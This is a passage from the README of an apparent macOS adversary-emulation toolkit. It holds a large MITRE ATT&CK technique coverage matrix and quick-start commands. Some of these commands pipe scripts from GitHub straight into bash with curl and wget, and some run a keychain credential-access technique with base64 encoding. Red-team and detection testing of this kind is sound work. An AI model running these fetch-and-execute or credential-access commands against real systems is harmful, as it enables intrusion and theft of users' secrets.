Encoding</sub> |  |  |
|  |  | ![T1546](https://img.shields.io/badge/T1546-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Event Triggered Execution</sub> | ![T1547.007](https://img.shields.io/badge/T1547.007-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Re-opened Applications</sub> | ![T1562.004](https://img.shields.io/badge/T1562.004-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Disable or Modify System Firewall</sub> | ![T1111](https://img.shields.io/badge/T1111-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Multi-Factor Authentication Interception</sub> | ![T1518](https://img.shields.io/badge/T1518-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Software Discovery</sub> |  |  | ![T1132.002](https://img.shields.io/badge/T1132.002-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Non-Standard Encoding</sub> |  |  |
|  |  | ![T1546.004](https://img.shields.io/badge/T1546.004-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Unix Shell Configuration Modification</sub> | ![T1548.006](https://img.shields.io/badge/T1548.006-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>TCC Manipulation</sub> | ![T1218.015](https://img.shields.io/badge/T1218.015-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Electron Applications</sub> | ![T1556](https://img.shields.io/badge/T1556-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Modify Authentication Process</sub> | ![T1622](https://img.shields.io/badge/T1622-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Debugger Evasion</sub> |  |  | ![T1071.001](https://img.shields.io/badge/T1071.001-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Web Protocols</sub> |  |  |
|  |  | ![T1037.005](https://img.shields.io/badge/T1037.005-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Startup Items</sub> | ![T1053.002](https://img.shields.io/badge/T1053.002-lightgrey?style=for-the-badge&label=%20!%20&labelColor=ffde59&color=494949)</br><sub>At</sub> | ![T1553.006](https://img.shields.io/badge/T1553.006-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Code Signing Policy Modification</sub> |  | ![T1124](https://img.shields.io/badge/T1124-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>System Time Discovery</sub> |  |  | ![T1105](https://img.shields.io/badge/T1105-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Ingress Tool Transfer</sub> |  |  |
|  |  | ![T1078.002](https://img.shields.io/badge/T1078.002-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Domain Accounts</sub> | ![T1574.004](https://img.shields.io/badge/T1574.004-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Dylib Hijacking</sub> | ![[T1027.001](../../ttp/discovery/browser_history.sh)](https://img.shields.io/badge/T1027.001-lightgrey?style=for-the-badge&label=%201%20&labelColor=3bc05a&color=494949)</br><sub>Binary Padding</sub> |  |  |  |  | ![T1665](https://img.shields.io/badge/T1665-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Hide Infrastructure</sub> |  |  |
|  |  | ![T1543.001](https://img.shields.io/badge/T1543.001-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Launch Agent</sub> | ![T1078.003](https://img.shields.io/badge/T1078.003-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Local Accounts</sub> | ![T1078.001](https://img.shields.io/badge/T1078.001-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Default Accounts</sub> |  |  |  |  | ![T1001.002](https://img.shields.io/badge/T1001.002-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Steganography</sub> |  |  |
|  |  | ![T1505](https://img.shields.io/badge/T1505-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Server Software Component</sub> |  | ![T1574.006](https://img.shields.io/badge/T1574.006-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Dynamic Linker Hijacking</sub> |  |  |  |  | ![T1008](https://img.shields.io/badge/T1008-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Fallback Channels</sub> |  |  |
|  |  | ![T1546.016](https://img.shields.io/badge/T1546.016-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Installer Packages</sub> |  | ![T1222](https://img.shields.io/badge/T1222-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>File and Directory Permissions Modification</sub> |  |  |  |  | ![T1090.001](https://img.shields.io/badge/T1090.001-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Internal Proxy</sub> |  |  |
|  |  | ![T1037.004](https://img.shields.io/badge/T1037.004-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>RC Scripts</sub> |  | ![T1548](https://img.shields.io/badge/T1548-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Abuse Elevation Control Mechanism</sub> |  |  |  |  | ![T1102.001](https://img.shields.io/badge/T1102.001-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Dead Drop Resolver</sub> |  |  |
|  |  | ![T1136](https://img.shields.io/badge/T1136-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Create Account</sub> |  | ![T1548.001](https://img.shields.io/badge/T1548.001-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Setuid and Setgid</sub> |  |  |  |  | ![T1001.001](https://img.shields.io/badge/T1001.001-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Junk Data</sub> |  |  |
|  |  | ![T1547.007](https://img.shields.io/badge/T1547.007-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Re-opened Applications</sub> |  | ![T1562.006](https://img.shields.io/badge/T1562.006-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Indicator Blocking</sub> |  |  |  |  |  |  |  |
|  |  | ![T1653](https://img.shields.io/badge/T1653-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Power Settings</sub> |  | ![T1036.002](https://img.shields.io/badge/T1036.002-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Right-to-Left Override</sub> |  |  |  |  |  |  |  |
|  |  | ![T1053.002](https://img.shields.io/badge/T1053.002-lightgrey?style=for-the-badge&label=%20!%20&labelColor=ffde59&color=494949)</br><sub>At</sub> |  | ![T1542.002](https://img.shields.io/badge/T1542.002-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Component Firmware</sub> |  |  |  |  |  |  |  |
|  |  | ![T1556](https://img.shields.io/badge/T1556-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Modify Authentication Process</sub> |  | ![T1070](https://img.shields.io/badge/T1070-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Indicator Removal</sub> |  |  |  |  |  |  |  |
|  |  | ![T1574.004](https://img.shields.io/badge/T1574.004-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Dylib Hijacking</sub> |  | ![T1036.004](https://img.shields.io/badge/T1036.004-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Masquerade Task or Service</sub> |  |  |  |  |  |  |  |
|  |  | ![T1078.003](https://img.shields.io/badge/T1078.003-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Local Accounts</sub> |  | ![T1647](https://img.shields.io/badge/T1647-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Plist File Modification</sub> |  |  |  |  |  |  |  |
|  |  |  |  | ![T1542](https://img.shields.io/badge/T1542-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Pre-OS Boot</sub> |  |  |  |  |  |  |  |
|  |  |  |  | ![T1562.010](https://img.shields.io/badge/T1562.010-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Downgrade Attack</sub> |  |  |  |  |  |  |  |
|  |  |  |  | ![T1497](https://img.shields.io/badge/T1497-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Virtualization/Sandbox Evasion</sub> |  |  |  |  |  |  |  |
|  |  |  |  | ![T1480](https://img.shields.io/badge/T1480-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Execution Guardrails</sub> |  |  |  |  |  |  |  |
|  |  |  |  | ![T1205.001](https://img.shields.io/badge/T1205.001-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Port Knocking</sub> |  |  |  |  |  |  |  |
|  |  |  |  | ![T1564.002](https://img.shields.io/badge/T1564.002-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Hidden Users</sub> |  |  |  |  |  |  |  |
|  |  |  |  | ![T1562.003](https://img.shields.io/badge/T1562.003-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Impair Command History Logging</sub> |  |  |  |  |  |  |  |
|  |  |  |  | ![T1497.002](https://img.shields.io/badge/T1497.002-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>User Activity Based Checks</sub> |  |  |  |  |  |  |  |
|  |  |  |  | ![T1562.001](https://img.shields.io/badge/T1562.001-lightgrey?style=for-the-badge&label=%20!%20&labelColor=ffde59&color=494949)</br><sub>Disable or Modify Tools</sub> |  |  |  |  |  |  |  |
|  |  |  |  | ![T1574](https://img.shields.io/badge/T1574-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Hijack Execution Flow</sub> |  |  |  |  |  |  |  |
|  |  |  |  | ![T1027.005](https://img.shields.io/badge/T1027.005-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Indicator Removal from Tools</sub> |  |  |  |  |  |  |  |
|  |  |  |  | ![[T1078](../../ttp/initial_access/guest_account.sh)](https://img.shields.io/badge/T1078-lightgrey?style=for-the-badge&label=%202%20&labelColor=3bc05a&color=494949)</br><sub>Valid Accounts</sub> |  |  |  |  |  |  |  |
|  |  |  |  | ![T1564.009](https://img.shields.io/badge/T1564.009-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Resource Forking</sub> |  |  |  |  |  |  |  |
|  |  |  |  | ![[T1027](../../ttp/discovery/browser_history.sh)](https://img.shields.io/badge/T1027-lightgrey?style=for-the-badge&label=%202%20&labelColor=3bc05a&color=494949)</br><sub>Obfuscated Files or Information</sub> |  |  |  |  |  |  |  |
|  |  |  |  | ![T1556.006](https://img.shields.io/badge/T1556.006-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Multi-Factor Authentication</sub> |  |  |  |  |  |  |  |
|  |  |  |  | ![T1036.001](https://img.shields.io/badge/T1036.001-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Invalid Code Signature</sub> |  |  |  |  |  |  |  |
|  |  |  |  | ![T1564.006](https://img.shields.io/badge/T1564.006-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Run Virtual Instance</sub> |  |  |  |  |  |  |  |
|  |  |  |  | ![T1553](https://img.shields.io/badge/T1553-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Subvert Trust Controls</sub> |  |  |  |  |  |  |  |
|  |  |  |  | ![T1548.004](https://img.shields.io/badge/T1548.004-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Elevated Execution with Prompt</sub> |  |  |  |  |  |  |  |
|  |  |  |  | ![T1036.003](https://img.shields.io/badge/T1036.003-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Rename System Utilities</sub> |  |  |  |  |  |  |  |
|  |  |  |  | ![T1562.011](https://img.shields.io/badge/T1562.011-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Spoof Security Alerting</sub> |  |  |  |  |  |  |  |
|  |  |  |  | ![[T1027.003](../../ttp/discovery/browser_history.sh)](https://img.shields.io/badge/T1027.003-lightgrey?style=for-the-badge&label=%201%20&labelColor=3bc05a&color=494949)</br><sub>Steganography</sub> |  |  |  |  |  |  |  |
|  |  |  |  | ![T1078.002](https://img.shields.io/badge/T1078.002-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Domain Accounts</sub> |  |  |  |  |  |  |  |
|  |  |  |  | ![T1553.004](https://img.shields.io/badge/T1553.004-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Install Root Certificate</sub> |  |  |  |  |  |  |  |
|  |  |  |  | ![T1027.004](https://img.shields.io/badge/T1027.004-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Compile After Delivery</sub> |  |  |  |  |  |  |  |
|  |  |  |  | ![T1564.007](https://img.shields.io/badge/T1564.007-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>VBA Stomping</sub> |  |  |  |  |  |  |  |
|  |  |  |  | ![T1656](https://img.shields.io/badge/T1656-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Impersonation</sub> |  |  |  |  |  |  |  |
|  |  |  |  | ![T1564.003](https://img.shields.io/badge/T1564.003-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Hidden Window</sub> |  |  |  |  |  |  |  |
|  |  |  |  | ![T1070.009](https://img.shields.io/badge/T1070.009-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Clear Persistence</sub> |  |  |  |  |  |  |  |
|  |  |  |  | ![T1027.006](https://img.shields.io/badge/T1027.006-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>HTML Smuggling</sub> |  |  |  |  |  |  |  |
|  |  |  |  | ![T1027.010](https://img.shields.io/badge/T1027.010-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Command Obfuscation</sub> |  |  |  |  |  |  |  |
|  |  |  |  | ![T1070.004](https://img.shields.io/badge/T1070.004-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>File Deletion</sub> |  |  |  |  |  |  |  |
|  |  |  |  | ![T1027.002](https://img.shields.io/badge/T1027.002-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Software Packing</sub> |  |  |  |  |  |  |  |
|  |  |  |  | ![T1564.005](https://img.shields.io/badge/T1564.005-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Hidden File System</sub> |  |  |  |  |  |  |  |
|  |  |  |  | ![T1622](https://img.shields.io/badge/T1622-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Debugger Evasion</sub> |  |  |  |  |  |  |  |
|  |  |  |  | ![T1036.006](https://img.shields.io/badge/T1036.006-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Space after Filename</sub> |  |  |  |  |  |  |  |
|  |  |  |  | ![T1548.006](https://img.shields.io/badge/T1548.006-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>TCC Manipulation</sub> |  |  |  |  |  |  |  |
|  |  |  |  | ![T1564.001](https://img.shields.io/badge/T1564.001-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Hidden Files and Directories</sub> |  |  |  |  |  |  |  |
|  |  |  |  | ![T1480.001](https://img.shields.io/badge/T1480.001-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Environmental Keying</sub> |  |  |  |  |  |  |  |
|  |  |  |  | ![T1556](https://img.shields.io/badge/T1556-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Modify Authentication Process</sub> |  |  |  |  |  |  |  |
|  |  |  |  | ![T1574.004](https://img.shields.io/badge/T1574.004-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Dylib Hijacking</sub> |  |  |  |  |  |  |  |
|  |  |  |  | ![T1078.003](https://img.shields.io/badge/T1078.003-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Local Accounts</sub> |  |  |  |  |  |  |  |
|  |  |  |  | ![T1211](https://img.shields.io/badge/T1211-lightgrey?style=for-the-badge&label=%20-%20&labelColor=EB5454&color=494949)</br><sub>Exploitation for Defense Evasion</sub> |  |  |  |  |  |  |  |

</details>
</div>

## Quick Start Usage

### Using attackmacos.sh Handler (Recommended)

```sh
# 1. Clone the repository
git clone https://github.com/yourusername/attack-macOS.git
cd attack-macOS

# 2. Local execution using the handler
./attackmacos/attackmacos.sh --method local --tactic discovery --ttp browser_history --args='-s'

# 3. Remote execution using the handler
./attackmacos/attackmacos.sh --method curl --tactic credential_access --ttp keychain --args='--verbose --encode base64'

# 4. List available TTPs for a tactic
./attackmacos/attackmacos.sh --list-local --tactic discovery
./attackmacos/attackmacos.sh --list-remote --tactic credential_access

# 5. Show banner and help
./attackmacos/attackmacos.sh --banner --help
```

### Local Execution (Direct)

```sh
# 1. Clone the repository
git clone https://github.com/yourusername/attack-macOS.git
cd attack-macOS

# 2. Run a technique directly
./ttp/discovery/shell/system_info.sh

# 3. Run with custom parameters
./ttp/credential_access/shell/keychain.sh --verbose --log-output --encode base64

# 4. Use the builder to create custom scripts
cd tools
python3 build_shell_procedure.py --input ../attackmacos/ttp/discovery/shell/system_info.yml --output ../custom_scripts/
```

### Remote Execution (Direct)

```sh
# 1. Execute directly from GitHub without cloning
curl -s https://raw.githubusercontent.com/yourusername/attack-macOS/main/ttp/discovery/shell/system_info.sh | bash

# 2. Download and execute with parameters
curl -s https://raw.githubusercontent.com/yourusername/attack-macOS/main/ttp/credential_access/shell/keychain.sh | bash -s -- --verbose --log-output --encode base64

# 3. Execute specific technique with wget
wget -qO- https://raw.githubusercontent.com/yourusername/attack-macOS/main/ttp/discovery/shell/browser_history.sh | bash
```

## License

This project is licensed under the Apache License 2.0.  [LICENSE](LICENSE) 

## Acknowledgements

For contributor acknowledgements and project credits, see [Acknowledgements.md](docs/Acknowledgements.md).

## References

For research references and technical documentation, see [References.md](docs/References.md).